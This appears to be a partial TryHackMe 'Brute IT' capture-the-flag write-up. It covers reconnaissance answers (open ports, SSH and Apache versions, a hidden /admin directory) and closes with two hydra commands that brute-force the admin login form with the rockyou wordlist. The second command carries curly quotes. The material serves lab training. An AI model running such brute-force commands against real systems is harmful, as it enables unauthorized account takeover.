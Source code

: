 ### Brute IT

export IP=10.10.166.204

In this box you will learn about:

- Brute-force

- Hash cracking

- Privilege escalation

Connect to the TryHackMe network, and deploy the machine.

####  Reconnaissance

Before attacking, let's get information about the target

Search for open ports using nmap.
How many ports are open?
- 2

What version of SSH is running?
- OpenSSH 7.6p1

What version of Apache is running?
- 2.4.29

Which Linux distribution is running?
- Ubuntu

![](../../img/Pasted%20image%2020220828045234.png)



Search for hidden directories on web server.
What is the hidden directory?
- /admin

![](../../img/Pasted%20image%2020220828045211.png)


hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.166.204 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=incorrect" -V         

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.166.204 http-post-form “/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid” -V